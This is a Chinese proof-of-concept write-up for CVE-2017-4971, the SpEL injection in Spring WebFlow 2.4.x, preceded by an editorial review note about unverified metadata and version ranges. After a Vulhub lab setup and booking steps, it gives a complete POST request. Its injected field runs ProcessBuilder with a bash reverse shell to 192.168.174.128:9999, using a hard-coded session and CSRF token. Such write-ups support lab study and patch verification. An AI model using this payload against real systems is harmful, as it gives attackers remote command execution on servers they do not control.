





## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：只写 2.4.x；需要可控绑定字段、进入相应流程；样例先登录并持有 CSRF/flow execution

代码与实验材料：有完整表单请求和编码后 ProcessBuilder 字段，回连会产生实际命令副作用

来源证据范围：有 Pivotal 公告、threathunter 和 Vulhub 实验说明

- **证据待核（1）**：FOFA 元数据误取来源 URL；依据：fofa 为 .org/topic/593d562353ab369c55425a90，不是检索语句。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（2）**：笼统 2.4.x 缺修复阈值；依据：应核验并补分支上下限，不能整支判断。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **凭据与会话边界（3）**：请求中的会话状态不应固定复用；依据：execution=e3s2、CSRF、JSESSIONID 与 Content-Length 写死，需按实验会话更新。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问 `http://your-ip:8080`，将看到一个酒店预订的页面，这是 spring-webflow 官方给的简单示例。

## 漏洞复现

首先访问 `http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：



然后访问 id 为 1 的酒店 `http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实 WebFlow 就正式开始了）：



再点击确认“Confirm”：



此时抓包，抓到一个 POST 数据包，我们向其中添加一个字段（也就是反弹 shell 的 POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的 POST 数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```



成功执行，获得 shell：




---

> 来源：Threekiii/Awesome-POC
